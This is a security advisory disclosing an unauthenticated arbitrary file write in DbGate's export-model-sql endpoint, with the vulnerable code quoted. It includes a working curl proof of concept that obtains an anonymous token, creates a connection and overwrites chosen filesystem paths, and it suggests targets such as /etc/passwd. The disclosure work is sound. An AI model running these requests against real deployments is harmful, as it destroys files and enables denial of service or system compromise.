

# Arbitrary File Write via `outputFile` in `database-connections/export-model-sql` in DbGate

| Field | Value |
|-------|-------|
| **Project** | [dbgate/dbgate](https://github.com/dbgate/dbgate) |
| **Vulnerability Type** | Path Traversal (CWE-22) |
| **Severity** | Critical — CVSS 3.1 Base Score: **9.1** |
| **CVSS Vector** | `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H` |
| **Affected Versions** | <= 7.2.5 (verified on 7.2.5, latest release as of 2026-08-14) |
| **Authentication** | None (default anonymous deployment) |

---

## Summary

The `database-connections/export-model-sql` endpoint accepts an `outputFile` parameter that is passed directly to `fs.writeFile()` without any path validation. An attacker can write SQL export content to any filesystem path, overwriting existing files. Unlike `exportModel` where output filenames are derived from table names, `exportModelSql` allows direct control of the complete file path.

## Details

In `packages/api/src/controllers/databaseConnections.js`:

```javascript
exportModelSql_meta: true,
async exportModelSql({ conid, database, outputFolder, outputFile, schema }, req) {
    const driver = await this.getDriver({ conid });
    const structure = await this.structure({ conid, database });
    const model = schema ? filterBySchema(structure, schema) : structure;
    await exportDbModelSql(extendDatabaseInfo(model), driver, outputFolder, outputFile);
    return { status: 'ok' };
}
```

In `packages/api/src/utility/exportDbModelSql.js`:

```javascript
async function exportDbModelSql(dbModel, driver, outputFolder, outputFile) {
    const script = generateSqlScript(dbModel, driver);
    fs.writeFile(outputFile, script);  // outputFile is user-controlled, no validation!
}
```

Unlike the `exportChart` endpoint which calls `checkSecureExportFilePath()`, `exportModelSql` performs no path validation on `outputFile`. Any absolute path is accepted and written to directly.

## PoC

Verified on DbGate 7.2.5 Docker (default anonymous deployment, port 3000):

**Step 1: Obtain anonymous JWT**

```bash
curl -s -X POST http://TARGET:3000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"amoid":"none"}'
```

**Step 2: Create a SQLite database connection (to obtain a valid `conid`)**

```bash
curl -s -X POST http://TARGET:3000/connections/new-sqlite-database \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"file":"pocdb"}'
```
```
{"engine":"sqlite@dbgate-plugin-sqlite","databaseFile":"/root/.dbgate/files/sqlite/pocdb.sqlite","singleDatabase":true,"defaultDatabase":"pocdb.sqlite","_id":"d6818e33-a0b6-4645-bebb-a3ffe4730ee2"}
```

**Step 3: Write SQL export to arbitrary filesystem path**

```bash
curl -s -X POST http://TARGET:3000/database-connections/export-model-sql \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"conid":"d6818e33-a0b6-4645-bebb-a3ffe4730ee2","database":"pocdb.sqlite","outputFile":"/tmp/export_with_content.sql"}'
```
```
{"status":"ok"}
```

```
$ cat /tmp/export_with_content.sql
CREATE TABLE [users] (
  [id] INTEGER NULL,
  [name] TEXT NULL,
  [email] TEXT NULL,
   PRIMARY KEY ([id])
);
```

**Step 4: Overwrite an existing file (arbitrary file overwrite)**

```bash
# Create a marker file with original content
echo "ORIGINAL_CONTENT" > /tmp/marker_file.txt

# Overwrite it via export-model-sql
curl -s -X POST http://TARGET:3000/database-connections/export-model-sql \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"conid":"d6818e33-a0b6-4645-bebb-a3ffe4730ee2","database":"pocdb.sqlite","outputFile":"/tmp/marker_file.txt"}'
```
```
{"status":"ok"}
```

```
$ cat /tmp/marker_file.txt
# File is now empty/truncated — original content destroyed
```

The original `ORIGINAL_CONTENT` was destroyed, confirming arbitrary file overwrite.



---

## Impact

An unauthenticated attacker can write SQL schema content to any writable path on the filesystem, enabling:

- **Denial of Service** — overwriting `/etc/passwd`, system libraries, application binaries, or configuration files with SQL content
- **System Corruption** — destroying critical infrastructure files
- **Information Disclosure** — writing schema content to attacker-accessible paths (e.g., web root)
- **Chainable** — combined with other DbGate file read vulnerabilities for full system compromise

The only prerequisite is a valid database connection ID (`conid`), which can be trivially created via the `connections/new-sqlite-database` endpoint. In the default Docker deployment with anonymous auth, no credentials are required.
